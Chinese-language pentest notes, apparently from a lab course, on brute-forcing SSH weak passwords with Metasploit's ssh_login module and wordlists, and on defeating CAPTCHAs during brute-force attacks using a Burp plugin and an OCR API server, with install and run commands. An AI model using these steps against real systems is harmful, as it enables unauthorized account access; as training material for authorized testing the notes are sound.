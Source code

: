 ### MSF模块爆破SSH
*Metasploit*在探测ssh弱口令时, 如果发现存在则会返回一个`linux shell`, 可以使用`sessions -u <id>`进行升级
```shell
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 172.26.2.36
set USER_FILE /root/Desktop/tools/dic_username_ssh.txt
set PASS_FILE /root/Desktop/tools/pwd100.txt
```

### 爆破验证码
- 验证码从服务端发送验证
- 抓MIME Image的包, 先单独请求验证码, 获取验证码内容字符, 填入请求体
#### captcha-killer-modified插件
1. [captcha-killer-modified](https://github.com/f0ng/captcha-killer-modified), 下载jar包, 作为Burp的插件安装
2. 验证码识别服务安装
	- https://github.com/sml2h3/ddddocr
	- https://github.com/sml2h3/ocr_api_server  运行环境: python<=3.9
	- http://1b8cdb391967.target.yijinglab.com:9898 现成的不用搭建

```shell
# 安装ddddocr
python3 -m pip install ddddocr -i https://mirrors.ustc.edu.cn/pypi/web/simple

# 安装ocr_api_server
git clone https://github.com/sml2h3/ocr_api_server.git

cd ocr_api_server

python3 -m pip install -r requirements.txt -i https://mirrors.ustc.edu.cn/pypi/web/simple

python3 -m pip install Pillow==9.5.0 -i https://mirrors.ustc.edu.cn/pypi/web/simple

# 启动ocr_api_server
python3 ocr_server.py --port 9898 --ocr



# 安装依赖
pip install -r requirements.txt -i https://pypi.douban.com/simple

# 运行  可选参数如下
# --port 9898 指定端口,默认为9898
# --ocr 开启ocr模块 默认开启
# --old 使用旧模型计算, 只有ocr模块开启的情况下生效 默认不开启
# --det 开启目标检测模式
```
- ocr_api_server的api接口
	- 详见项目中`test_api.py`文件
	- 测试是否成功, 使用GET直接访问`http://{host}:{port}/ping`返回`pong`则为成功
```shell
# ocr/目标检测 请求接口格式
http://{host}:{port}/{opt}/{img_type}/{ret_type}

# opt：操作类型 ocr=OCR det=目标检测 slide=滑块（match和compare两种算法，默认为compare)
# img_type: 数据类型 file=文件上传方式 b64=base64(imgbyte)方式 默认为file方式
# ret_type: 返回类型 json=返回json（识别出错会在msg里返回错误信息） text=返回文本格式（识别出错时回直接返回空文本）
```
